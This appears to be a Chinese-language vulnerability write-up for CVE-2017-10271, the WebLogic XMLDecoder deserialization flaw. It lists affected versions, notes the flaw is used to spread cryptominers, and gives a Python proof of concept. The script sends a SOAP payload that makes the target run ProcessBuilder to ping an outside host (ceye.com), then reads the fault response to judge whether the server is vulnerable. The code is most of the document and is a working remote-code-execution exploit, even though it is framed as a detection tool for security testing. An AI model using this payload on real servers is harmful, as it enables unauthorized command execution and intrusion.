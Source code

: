 # CVE-2017-10271 WebLogic XMLDecoder反序列化漏洞 #
## 受影响版本 ##
weblogic 10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
## 平台 ##
windows 、 linux等多平台
## 测试系统 ##
Ubuntu
## 类型 ##
远程
## 描述 ##
WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。
## POC ##
<pre class="prettyprit lang-javascript">
import sys

import requests
import re
import logging

logging.basicConfig(filename=&#x27;Weblogic.log&#x27;,
                    format=&#x27;%(asctime)s %(message)s&#x27;,
                    filemode=&quot;w&quot;, level=logging.INFO)

VUL=[&#x27;CVE-2017-10271&#x27;]
headers = {&#x27;user-agent&#x27;: &#x27;ceshi/0.0.1&#x27;}

def poc(url,index):
    if not url.startswith(&quot;http&quot;):
        url = &quot;http://&quot; + url
    if &quot;/&quot; in url:
        url += &#x27;/wls-wsat/CoordinatorPortType&#x27;
    post_str = &#x27;&#x27;&#x27;
    &lt;soapenv:Envelope xmlns:soapenv=&quot;http://schemas.xmlsoap.org/soap/envelope/&quot;&gt;
      &lt;soapenv:Header&gt;
        &lt;work:WorkContext xmlns:work=&quot;http://bea.com/2004/06/soap/workarea/&quot;&gt;
          &lt;java&gt;
            &lt;void class=&quot;java.lang.ProcessBuilder&quot;&gt;
              &lt;array class=&quot;java.lang.String&quot; length=&quot;2&quot;&gt;
                &lt;void index=&quot;0&quot;&gt;
                  &lt;string&gt;/usr/sbin/ping&lt;/string&gt;
                &lt;/void&gt;
                &lt;void index=&quot;1&quot;&gt;
                  &lt;string&gt;ceye.com&lt;/string&gt;
                &lt;/void&gt;
              &lt;/array&gt;
              &lt;void method=&quot;start&quot;/&gt;
            &lt;/void&gt;
          &lt;/java&gt;
        &lt;/work:WorkContext&gt;
      &lt;/soapenv:Header&gt;
      &lt;soapenv:Body/&gt;
    &lt;/soapenv:Envelope&gt;
    &#x27;&#x27;&#x27;

    try:
        response = requests.post(url, data=post_str, verify=False, timeout=5, headers=headers)
        response = response.text
        response = re.search(r&quot;\&lt;faultstring\&gt;.*\&lt;\/faultstring\&gt;&quot;, response).group(0)
    except Exception:
        response = &quot;&quot;

    if &#x27;&lt;faultstring&gt;java.lang.ProcessBuilder&#x27; in response or &quot;&lt;faultstring&gt;0&quot; in response:
        logging.info(&#x27;[+]The target weblogic has a JAVA deserialization vulnerability:{}&#x27;.format(VUL[index]))
        print(&#x27;[+]The target weblogic has a JAVA deserialization vulnerability:{}&#x27;.format(VUL[index]))
    else:
        logging.info(&#x27;[-]Target weblogic not detected {}&#x27;.format(VUL[index]))
        print(&#x27;[-]Target weblogic not detected {}&#x27;.format(VUL[index]))


def run(rip,rport,index):
    url=rip+&#x27;:&#x27;+str(rport)
    poc(url=url,index=index)

if __name__ == &#x27;__main__&#x27;:
    dip = sys.argv[1]
    dport = int(sys.argv[2])
    run(dip,dport,0)
</pre>